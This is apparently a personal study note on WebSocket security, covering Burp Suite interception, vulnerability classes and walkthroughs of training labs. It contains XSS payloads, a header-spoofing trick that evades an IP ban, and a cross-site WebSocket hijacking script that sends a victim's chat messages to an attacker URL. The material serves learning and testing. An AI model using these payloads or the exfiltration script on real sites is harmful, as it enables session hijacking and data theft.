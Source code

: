 ## WebSockets

### What is WebSocket 
WebSocket is a protocol that allows a persistent, **full-duplex** (two-way) communication between a client and a server over a **single TCP connection**.

WebSocket keeps the connection open, unlike HTTP protocol which helps in **real-time**, fast communication.

### Why does WebSocket exist
- Apps like Games, chat, notifications need instant data exchange  
- In HTTP protocol you need to constantly poll data from the server which is inefficient
- WebSocket solves this issue by creating a light, always open, two way communication channel.


### Why does WebSocket vulnerability exists
- WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications


### Manipulating WebSockets Traffics
- Finding vulnerability in WebSockets generally involves manipulating the WebSocket requests in a way that the application does not expect.
```
1. Intercept and modify WebSocket requests 
2. Reply and generate new WebSocket message
3. Manipulate WebSocket connection
```


*You can configure whether client-to-server or server-to-client messages are intercepted in Burp Proxy. Do this in the Settings dialog, in the WebSocket interception rules settings*

### Replaying and generating new WebSocket messages
- Send the request to the repeter from intercept tab or WebSocket History. 
- Now you should be able to edit message and send it over and over.
- You can enter a new message and send it in either direction, to the client or server. 


### Manipulating WebSocket connections 
- Some reason where manipulating
  - Can enable to reach more attack surface.
  - Some attacks may drop the connections so you may need to establish a new one.
  - Tokens or other data in the original handshake request might be stale and need updating.

- Send a WebSocket message to Burp Repeater as already described.  
-  In Burp Repeater, click on the pencil icon next to the WebSocket URL. This opens a wizard that lets you attach to an existing connected WebSocket, clone a connected WebSocket, or reconnect to a disconnected WebSocket. 
- If you choose to clone a connected WebSocket or reconnect to a disconnected WebSocket, then the wizard will show full details of the WebSocket handshake request, which you can edit as required before the handshake is performed 
- When you click "Connect", Burp will attempt to carry out the configured handshake and display the result. If a new WebSocket connection was successfully established, you can then use this to send new messages in Burp Repeater

### WebSockets security vulnerabilities
- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection. 
- Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.  
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.  

### Manipulating WebSocket messages to exploit vulnerabilities
- Majority of WebSocket vulnerabilities can be found by tampering with content of WebSocket message.
For e.g. 
```
{"message":"Hello Carlos"}
```

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:

```<td>Hello Carlos</td>```

We can try XSS over here 

```
{"message":"<img src=1 onerror='alert(1)'>"}
```

WebSocket vulnerabilities can only be found by Manipulating the WebSocket handshake. It may be due to design flaws such as, 

1. Misplaced trust in **HTTP** headers to perform security decisions, E.g. `X-Forwarded-Host`.
2. Flaws in Session handeling mechanisms, As the Session context in which WebSocket messages processed is generally determined by the Session context of the handshake.
3. Attack surface introduced by custom HTTP headers used by the application.


### Using cross-site WebSockets to exploit vulnerabilities 
If an attacker makes an cross-domain WebSocket connection from a website that is controlled by the attacker then it's called, Cross-site  WebSocket hijacking attack. It involves exploiting a CSRF vulnerability on a WebSocket Handshake.

### What is cross-site WebSocket hijacking?
It requires a Cross-Site Request Forgery (CSRF) vulnerability on WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 

### Performing a cross-site WebSocket hijacking attack
The first step is determine if the WebSocket Handshake is protected against CSRF.
*You typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters*



```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

This request is probably vulnerable to CSRF as it solely depends on session token transmitted in a cookie 
*The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.*

If a WebSocket is vulnerable to CSRF, Then an attackers web page opens WebSocket connection on the vulnerable site. 

* Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
* Sending WebSocket messages to retrieve sensitive data. 
* Sometimes, just waiting for incoming messages to arrive containing sensitive data



### Labs

#### Lab: Manipulating WebSocket messages to exploit vulnerabilities

1. Intercept the reqeust send WebSocket message to Repeter 
2. Update the message param with the following ```<img src=x onerror=alert(1)>```

```
{
        "message": "<img src=x onerror=alert(1)>"
}
```


#### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities

1. Send payload `<img src=x onerror=alert(1)>`
2. Server will detect the payload and band your IP address 
3. Bypass the HTTP handshake by adding an additional header `X-Forwarded-For: 1.1.1.1`
4. Now as the WebSocket is connected send the following payload ```<img src=1 oNeRrOr=alert`1`>```


####  Lab: Cross-site WebSocket hijacking 
1. Check the live chat feature
2. Now check the webstocket upgrade request, it does not have CSRF token 
3. Now craft a CSRF request 
  ```html
    <script>
      var ws = new WebSocket('wss://your-websocket-url');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
      };
  </script>
```
4. Store it to exploit server 
5. Deliver the exploit to the victim 